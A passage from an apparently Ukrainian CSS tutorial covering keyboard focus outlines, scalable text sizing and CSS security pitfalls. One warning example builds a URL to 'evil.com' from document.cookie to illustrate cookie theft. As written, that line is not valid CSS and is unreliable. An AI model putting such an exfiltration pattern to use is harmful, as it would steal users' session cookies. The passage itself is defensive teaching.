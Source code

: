 4. **Додайте :focus стани для елементів**:

```css
/* Забезпечує видимий focus для клавіатурної навігації */
:focus {
    outline: 2px solid blue;
    outline-offset: 2px;
}

/* Для сучасних браузерів можна розрізняти типи фокусу */
:focus-visible {
    outline: 2px solid blue;
    outline-offset: 2px;
}
```

5. **Підтримуйте масштабування тексту**:

```css
/* Дозволяє тексту масштабуватися */
html {
    font-size: 100%; /* або 16px */
}

body {
    font-size: 1rem;
}

/* Уникайте фіксованих розмірів */
.container {
    max-width: 1200px;
    width: 90%;
    margin: 0 auto;
}
```

## CSS та безпека

### Підводні камені безпеки

1. **Вставка контенту через CSS**:

```css
/* Потенційно небезпечний код */
.user-content::before {
    content: attr(data-user-content);
}
```

2. **Небезпечні URL в CSS**:

```css
/* Може бути використано для витоку даних */
.element {
    background-image: url("https://evil.com/?" + document.cookie);
}
```
